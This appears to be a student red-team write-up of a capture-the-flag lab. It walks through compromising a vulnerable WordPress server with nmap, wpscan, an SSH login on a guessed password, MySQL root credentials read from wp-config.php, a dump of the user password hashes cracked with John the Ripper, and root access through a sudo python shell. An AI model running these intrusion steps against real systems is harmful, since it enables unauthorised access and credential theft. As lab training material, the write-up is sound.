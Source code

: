 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

## Exposed Services
Nmap scan results for each machine reveal the below services and OS details:  
~~~
nmap -sV 192.168.1  
~~~

![red1](https://user-images.githubusercontent.com/32025331/155894956-f1c31fe2-82f8-4a57-a74d-95c5a0dda68f.PNG)

This scan identifies the services below as potential points of entry:  
  
Target 1  
- OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)  
- Apache httpd 2.4.10 ((Debian))  
  
The following vulnerabilities were identified on each target:
- Target 1
- Weak server password
- Unsalted hashed passwords
- Unpatched WordPress software
  
 ## Exploitation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:


**flag1{b9bbcb33e11b80be759c4e844862482d}**  
Tools used: dirb, wpscan  
- Using dirb we were able to find a wordpress page: 192.168.1.110/wordpress  
- From there we ran wpscan: 
~~~
wpscan –url http://192.168.1.110/wordpress
~~~
![red2](https://user-images.githubusercontent.com/32025331/155894957-b9e4c47b-09d7-43ff-9d0f-d4a3ef808915.PNG)

We then found two login names: Steven and Michael  
![red3](https://user-images.githubusercontent.com/32025331/155894958-c2fc6d12-f3ff-47b4-93a7-9a038cbdac2a.PNG)

By sheer luck, we guessed the password without brute force:  
~~~
ssh michael@192.168.1.110
Password:  michael
cd ../../var/www/html
grep -RE flag1
~~~
![red4](https://user-images.githubusercontent.com/32025331/155894959-9c35c8ed-fc7c-4049-8b13-c03f6d785452.PNG)  
  
**flag2{fc3fd58dcdad9ab23faca6e9a36e581c}**  
- Follow same steps as flag 1 to ssh into the server  
~~~ 
cd ../../var/www/
grep -RE flag2
~~~


**flag3{afc01ab56b50591e7dccf93122770cd2}**  
**flag4{715dea6c055b9fe3337544932f2941ce}**  
Tools used: SSH, MySQL  
~~~
ssh michael@192.168.1.110
Password: michael
cd /var/www/html/wordpress
nano wp-config.php  
~~~

![red5](https://user-images.githubusercontent.com/32025331/155894960-bc91d0f1-f6ac-4d95-bc81-c3027734bba8.PNG)  
Within wp-config.php we were able to find credentials to a MySQL database.
~~~
mysql -u root -pR@v3nSecurity
show databases;
use wordpress;
show tables;
select post_content from wp_posts;
~~~
![red9](https://user-images.githubusercontent.com/32025331/155896987-d9932ea6-75bb-4b88-ae79-67f5b9a46999.PNG)  
  
**Flag 4 from Steven’s account:  **  
- Tools used: SSH, MySQL, johntheripper  
- Using the MySQL credentials from before:  
~~~
mysql -u root -pR@v3nSecurity
show databases;
use wordpress;
show tables;
select user_login, user_pass from wp_users;
~~~  
We found the hashed passwords within ^#%$.  
Exit back out to Kali. From here we can use John the Ripper:  
![red6](https://user-images.githubusercontent.com/32025331/155894961-05ed83c8-ab77-40f0-b8e0-33995815607d.PNG)  
SSH into the webserver using Steven’s credentials:  
~~~
Ssh steven@192.168.1.110
Password: pink84
~~~
Now we run a python exploit:
~~~
sudo /usr/bin/python -c 'import os;os.system("/bin/sh")'
cd root
cat flag4.txt
~~~
[picture]
